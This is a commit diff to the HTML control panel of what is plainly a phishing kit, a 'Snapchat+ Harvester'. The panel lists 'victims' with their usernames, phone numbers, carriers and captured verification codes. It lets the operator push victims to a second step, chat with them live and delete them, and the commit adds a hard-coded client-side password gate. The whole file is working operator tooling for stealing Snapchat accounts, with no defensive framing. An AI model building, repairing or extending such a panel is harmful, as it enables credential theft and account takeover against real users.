

Before and after one commit to spookyarebored/snplusvercel, a website: page public/control.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update control.html

```diff
--- a/public/control.html
+++ b/public/control.html
@@ -14,6 +14,45 @@
             color: #fff;
             font-family: 'Inter', sans-serif;
             min-height: 100vh;
+        }
+
+        .login-container {
+            max-width: 420px;
+            margin: 120px auto;
+            padding: 40px 30px;
+            background: #1a1a1a;
+            border-radius: 16px;
+            text-align: center;
+            border: 1px solid #333;
+        }
+
+        .login-container h1 {
+            color: #FFFC00;
+            margin-bottom: 10px;
+        }
+
+        input[type="password"] {
+            width: 100%;
+            padding: 16px;
+            background: #111;
+            border: 1px solid #444;
+            border-radius: 12px;
+            color: #fff;
+            font-size: 18px;
+            margin: 20px 0;
+            box-sizing: border-box;
+        }
+
+        button {
+            background: #FFFC00;
+            color: #000;
+            font-weight: 600;
+            padding: 14px 32px;
+            border: none;
+            border-radius: 12px;
+            cursor: pointer;
+            font-size: 16px;
+            width: 100%;
         }
 
         .header {
@@ -75,7 +114,6 @@
         .waiting { background: #8B0000; color: #fff; }
         .code_received { background: #006400; color: #fff; }
         .step2_forced { background: #FF8800; color: #000; }
-        .step3 { background: #00C853; color: #000; }
 
         .actions {
             display: flex;
@@ -97,18 +135,6 @@
         .delete-btn { background: #FF0000; color: #fff; font-size: 16px; min-width: 40px; }
 
         button:hover { filter: brightness(1.15); }
-
-        .log {
-            background: #111;
-            padding: 15px;
-            border-radius: 8px;
-            font-family: monospace;
-            white-space: pre-wrap;
-            max-height: 420px;
-            overflow-y: auto;
-            margin-top: 30px;
-            border: 1px solid #333;
-        }
 
         #adminChat {
             margin-top: 20px;
@@ -172,6 +198,20 @@
     </style>
 </head>
 <body>
+
+    <!-- LOGIN SCREEN -->
+    <div id="loginScreen">
+        <div class="login-container">
+            <h1>🔐 Control Panel</h1>
+            <p>Accès Administrateur Snapchat+ Harvester</p>
+            <input type="password" id="adminPass" placeholder="Entrez le mot de passe" autocomplete="off">
+            <button onclick="login()">Se Connecter</button>
+            <div id="error" style="color:#ff4444; margin-top:15px; display:none;">Mot de passe incorrect</div>
+        </div>
+    </div>
+
+    <!-- MAIN PANEL (caché au départ) -->
+    <div id="mainPanel" style="display: none;">
         <div class="header">
             <h1>Snapchat+ Harvester — Control Panel</h1>
             <div>Victimes en ligne : <strong id="liveCount">0</strong></div>
@@ -207,12 +247,31 @@
 
             <div class="log" id="liveLog">En attente de victimes...</div>
         </div>
+    </div>
 
     <script src="https://cdn.socket.io/4.8.1/socket.io.min.js"></script>
     <script>
+        const PASSWORD = "changeMoi123";   // ← CHANGE ÇA IMMÉDIATEMENT PAR UN MOT DE PASSE FORT !
+
         let victims = [];
         let currentChatSession = null;
-        let socket = io();
+        let socket = null;
+
+        function login() {
+            const pass = document.getElementById('adminPass').value.trim();
+            if (pass === PASSWORD) {
+                document.getElementById('loginScreen').style.display = 'none';
+                document.getElementById('mainPanel').style.display = 'block';
+                initAdminPanel();
+            } else {
+                const error = document.getElementById('error');
+                error.style.display = 'block';
+                setTimeout(() => error.style.display = 'none', 3000);
+            }
+        }
+
+        function initAdminPanel() {
+            socket = io();
 
             socket.on('connect', () => console.log('✅ Admin Socket.IO connecté'));
 
@@ -227,7 +286,6 @@
                     const res = await fetch('/api/victims');
                     const newVictims = await res.json();
 
-                // Fix principal : on ne re-render que si les données ont changé
                     if (JSON.stringify(newVictims) !== JSON.stringify(victims)) {
                         victims = newVictims;
                         renderTable(document.getElementById('filter').value);
@@ -257,7 +315,7 @@
                         <td>${v.username || '-'}</td>
                         <td>${v.phone || '-'}</td>
                         <td>${v.operator || '-'}</td>
-                    <td><span class="status ${v.status || 'waiting'}">${getStatusText(v.status)}</span></td>
+                        <td><span class="status ${v.status || 'waiting'}">${v.status === 'waiting' ? '⏳ En attente' : v.status === 'step2_forced' ? '✅ Étape 2' : '✅ Code reçu'}</span></td>
                         <td><strong>${v.code || '-'}</strong></td>
                         <td class="actions">
                             <button class="action-btn step2-btn" onclick="forceStep2('${v.sessionId}')">▶️ Étape 2</button>
@@ -272,17 +330,6 @@
                 document.getElementById('liveCount').textContent = count;
             }
 
-        function getStatusText(status) {
-            if (status === 'waiting') return '⏳ En attente';
-            if (status === 'step2_forced') return '✅ Étape 2';
-            if (status === 'code_received') return '✅ Code reçu';
-            return '⏳ En attente';
-        }
-
-        // Filtre en temps réel
-        document.getElementById('filter').addEventListener('input', (e) => renderTable(e.target.value));
-
-        // === Tes fonctions existantes (inchangées) ===
             function toggleChat(sessionId) {
                 const chatPanel = document.getElementById('adminChat');
                 if (currentChatSession === sessionId && chatPanel.style.display === 'flex') {
@@ -293,7 +340,7 @@
                     chatPanel.style.display = 'flex';
                     document.getElementById('chatVictimId').textContent = sessionId;
                     document.getElementById('chatMessagesAdmin').innerHTML = '';
-                if (socket.connected) socket.emit('joinSession', sessionId);
+                    if (socket && socket.connected) socket.emit('joinSession', sessionId);
                 }
             }
 
@@ -349,9 +396,22 @@
                 } catch (e) {}
             }
 
+            // Events
+            document.getElementById('filter').addEventListener('input', (e) => renderTable(e.target.value));
+
             // Lancement
             setInterval(loadVictims, 1500);
-        window.onload = loadVictims;
+            loadVictims();
+        }
+
+        // Permettre Entrée sur le champ mot de passe
+        document.addEventListener('DOMContentLoaded', () => {
+            const passInput = document.getElementById('adminPass');
+            passInput.addEventListener('keypress', (e) => {
+                if (e.key === 'Enter') login();
+            });
+            passInput.focus();
+        });
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
